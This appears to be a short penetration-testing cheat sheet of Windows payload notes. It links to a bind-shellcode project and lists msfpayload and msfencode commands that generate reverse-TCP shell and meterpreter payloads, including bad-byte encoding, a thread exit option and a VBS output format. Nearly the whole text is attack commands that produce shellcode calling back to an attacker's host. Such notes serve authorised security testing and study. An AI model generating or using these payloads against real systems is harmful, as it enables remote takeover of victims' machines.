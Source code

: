 # Payloads

- A small, null-free port binding shellcode for 32-bit versions of Windows: https://code.google.com/archive/p/w32-bind-ngs-shellcode/

## MSF Payload Generation Example
```
msfpayload windows/shell_reverse_tcp LHOST ip LPORT 4443 C

msfpayload windows/shell_reverse_tcp LHOST ip LPORT 4443 R | msfencode -b '\x00\x0a\x0d'
```

Use exit fuction, "exit thread" when program is multi-threaded to avoid crashes after shell code execution is done:
```
msfpayload windows/shell_reverse_tcp EXITFUNC=thread LHOST ip LPORT 4443 R | msfencode -b '\x00\x0a\x0d'
```

## VBS

```
msfpayload windows/meterpreter/reverse_tcp LHOST=<ip> R | msfencode
-e generic/none -t vbs
```
